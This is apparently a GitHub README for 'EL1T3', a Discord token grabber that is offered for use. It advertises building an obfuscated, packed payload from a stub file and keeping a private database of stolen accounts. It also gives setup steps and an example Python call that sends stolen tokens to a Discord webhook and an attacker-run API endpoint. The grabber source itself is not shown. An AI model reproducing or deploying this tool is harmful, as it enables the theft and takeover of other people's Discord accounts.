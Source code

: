 <h1 align="center">🦄<br>THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/3UspqWXZtD">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FEATURE</h1>

- Dynamic url
- Private Database
- Remove Duplicate account / token
- Obfuscate and pack payload
- Easy to use

<h1 align="center">HOW TO INSTALL</h1>

- **Run** ``./Setup.py`` **file to install modules**
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823361030120931378/unknown.png">

#

<h1 align="center">HOW TO SETUP</h1>

```
+ Open port on host machine
+ Config port in EL1T3_API.py file
```

## 👀 Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/81619050/M-BLMxSy5e23way", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')
```

#

<h1 align="center">BUILD GRABBER</h1>

- **You can edit the grabber code on ``stub.txt`` file**
- **Dynamic api url in builder soon**

<img align="center" src="https://media.discordapp.net/attachments/823543490578219008/823601738585866251/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377574079234098/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823378287535194212/unknown.png">

#

<h1 align="center">DATABASE SCREENSHOT</h1>
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823356873637494794/unknown.png">
